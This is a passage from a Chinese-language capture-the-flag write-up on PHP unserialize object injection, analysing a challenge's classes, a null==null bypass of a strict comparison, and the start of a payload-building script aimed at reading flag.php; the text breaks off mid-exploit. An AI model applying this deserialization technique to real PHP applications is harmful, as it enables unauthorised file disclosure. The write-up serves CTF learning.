 ```
}  
这个ace类，触发echo_name函数就会执行下面的程序，也就是读取到了flag.php
 $this->openstack = unserialize($this->docker);这个是反序列化docker的值并赋值给openstack
  if($this->openstack->neutron === $this->openstack->nova)这个是进行判断两者是否相等
  相等就会执行 if (file_get_contents($file))         
            {              
                return file_get_contents($file)
            }  读取内容并返回值
```

```
if (isset($_GET['pks']))  
{
    $logData = unserialize($_GET['pks']);
    echo $logData; 
} 
最后的这个是接收参数进行反序列化，并赋值给logdata，同时echo时就会触发类中的_tostring()
```

下面就是构造payload，要求也就是上面分析的这些

- 先是进入到acp类，修改cinder的值为ace

- 然后进入到ace类后，将docker的值反序列化后等于acp

- docker的值反序列化后赋值给openstrack，也就是让openstrack等于acp，所以需要让acp类中的neutron和nova的值相等

- 最后保证filename的值等于flag.php

```
if($this->openstack->neutron === $this->openstack->nova)通过空返回染过这个判断，也就是让其null==null
```

```
$this->openstack = unserialize($this->docker);当docker为空时，this->openstack自然为空对象，则$this->openstack->neutron === $this->openstack->nova两侧都为null自然可绕过。
```

首先先测试一下

```
<?php

$a="";
$b=unserialize($a);
var_dump($b);//bool(false)
var_dump($a->sss);//报异常并返回null
var_dump($a->ttt->xxx===null);//bool(true)
?>
```

![image5a1ff1ed20b79246.png](https://z4a.net/images/2022/06/02/image5a1ff1ed20b79246.png)

构造exp

```
<?php
class acp 
{   
    public $cinder;  
    public $neutron;
    public $nova;
}
class ace
{    
    public $filename;     
    public $openstack;
    public $docker;
}
$b=new acp;
```